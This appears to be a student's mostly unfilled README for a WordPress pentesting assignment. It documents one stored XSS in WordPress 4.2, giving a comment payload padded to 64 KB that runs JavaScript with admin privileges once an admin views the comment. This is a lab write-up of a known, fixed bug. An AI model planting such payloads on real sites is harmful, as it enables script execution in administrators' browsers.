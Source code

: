 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. (Required) Vulnerability Name or ID
  - [ ] Summary: . The script is triggered when the comment is viewed.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 1) Post the following comment
                           <a title='x onmouseover=alert(unescape(/Youve%20been%20Pwned/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
                           replace the ...[64 kb].. with 64kb worth of data (replace with 64k 'A's)
                           2) Admin must approve the comment and view it
                           3) The javascript code is run with admin priviledge.
  - [ ] Affected source code:
        


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
